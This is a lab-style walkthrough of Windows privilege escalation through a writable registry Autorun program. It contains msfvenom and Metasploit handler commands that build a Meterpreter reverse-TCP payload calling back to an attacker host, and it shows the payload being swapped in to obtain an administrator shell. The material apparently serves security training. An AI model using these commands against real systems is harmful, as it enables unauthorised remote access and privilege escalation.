# Registry

The Windows Registry is a central hierarchical database in Microsoft Windows that stores configuration settings and options for:

- The operating system (Windows itself)
- Installed software and applications
- User profiles and preferences
- Hardware devices and drivers

In simple words it is brain or blueprint for windows, where almost everything about how the system runs is recorded

## Autorun 

Autorun refers to specific registry keys that tell the operating system to automatically start a program, service, or script when the system boots or when a user logs in. We are going to see any thing run automatically have any permission that is useful for our exploitation 

**Victim**

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
2. In Autoruns, click on the ‘Logon’ tab
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.
4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file

here the autorun, accesschk are cis internal tools 

Now we found the file, so we moving for exploitation phase 

**Attacker**

```
// generate a payload for windows reverse shell 
msfvenom -p windows/meterpreter/reverse_tcp lhost=attacker_ip -f exe -o program.exe

msfconsole 
use multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost attacker_ip 
option 
run 
```

Now host the payload program.exe using python server in the attacker side and download it in the victim side and replace with the program.exe in the AutoRun folder 

Now log out and sign in again in as high privileged user and now check the meterpreter we gained the reverse shell 

```
// we have gained reverse shell as administrator
getuid 
administrator
```
